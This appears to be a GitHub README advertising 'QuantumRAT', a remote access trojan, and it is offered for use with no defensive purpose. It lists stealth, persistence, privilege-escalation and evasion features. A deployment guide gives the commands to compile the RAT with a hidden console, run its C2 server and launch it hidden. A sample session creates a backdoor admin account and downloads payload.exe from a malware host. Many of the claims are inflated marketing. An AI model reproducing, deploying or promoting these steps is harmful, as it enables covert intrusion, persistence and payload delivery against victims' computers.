 # QuantumRAT

## Nuclear Features

- Quantum Encryption Protocol  
- Hybrid RSA-4096 + AES-256-CBC encryption  
- Per-session key rotation  
- SSL-pinned command channel  
- Stealth Deployment System  
- Process hollowing via trusted binaries  
- Registry + scheduled task persistence  
- Hidden console window (zero UI)  
- Anti-forensic self-destruct  
- God Mode Execution  
- Full system command execution  
- Privilege escalation to SYSTEM  
- Background process injection  
- Auto-reconnect with exponential backoff  

## Advanced Evasion Tactics

- VM / sandbox detection (10+ techniques)  
- Debugger detection (IsDebuggerPresent)  
- Behavioral analysis countermeasures  
- Encrypted string obfuscation  

## Military-Grade C2 Server

- SSL-pinned communications  
- Threaded client handling  
- Real-time command execution  
- Session key management  

## Execution Workflow

### Diagram  
_(Include your architecture diagram here or link it)_

### Code  

### Deployment Guide

#### Generate Certificates  
```bash
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
Compile RAT
bash
Copy
Edit
pip install pyinstaller pycryptodome  
pyinstaller --onefile --noconsole --add-data "server.crt;." --upx-dir=./upx QuantumRAT.py
Launch C2 Server
bash
Copy
Edit
python QuantumC2.py
Deploy RAT
powershell
Copy
Edit
Start-Process -WindowStyle Hidden .\dist\QuantumRAT.exe
Command Center Operations
text
Copy
Edit
QuantumRAT> whoami /all  
nt authority\system  

QuantumRAT> net user /add BackdoorUser P@ssw0rd!  
Command completed successfully.  

QuantumRAT> powershell -c "Start-BitsTransfer -Source http://malware.com/payload.exe -Destination C:\Windows\Temp\payload.exe"
Evasion Techniques
Process Hollowing: Runs within legitimate Windows processes

Code Obfuscation: Encrypted strings + polymorphic structure

Network Camouflage: Mimics HTTPS traffic patterns

Persistence Diversity: Triple-redundant startup methods

Anti-Analysis: Terminates in sandboxed environments

Why Undetectable?
Zero disk writes after installation

Memory-only payload execution

Legitimate certificate pinning

Behavioral pattern randomization

No suspicious API calls

python
Copy
Edit
# WARNING: THIS CYBERWEAPON VIOLATES INTERNATIONAL LAWS  
# MR MONSIF DISAPPEARS INTO THE QUANTUM FIELD
Created by MR MONSIF H4CK3R
